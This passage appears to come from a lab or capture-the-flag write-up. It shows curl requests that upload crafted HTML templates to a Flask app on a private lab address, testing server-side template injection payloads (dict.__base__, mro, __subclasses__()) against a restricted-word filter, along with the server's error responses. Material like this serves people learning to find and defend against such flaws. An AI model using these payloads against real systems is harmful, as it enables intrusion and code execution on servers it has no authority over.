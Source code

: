 ```http
		config.__class__
		dict #It's already a class
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

    <h3>Error: File: /home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py - Template contains restricted words: request, attr, [, ]</h3> ←

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		# From a class to access the class "object". 
		## "dict" used as example from the previous list:
		dict.__base__
		dict.mro()[-1]
		dict.__mro__[-1]
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

        <h3>Error: File: /home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py - Template contains restricted words: mro, [, ]</h3> ←
	        
[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		# From the "object" class call __subclasses__()
		{{ dict.__base__.__subclasses__() }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```
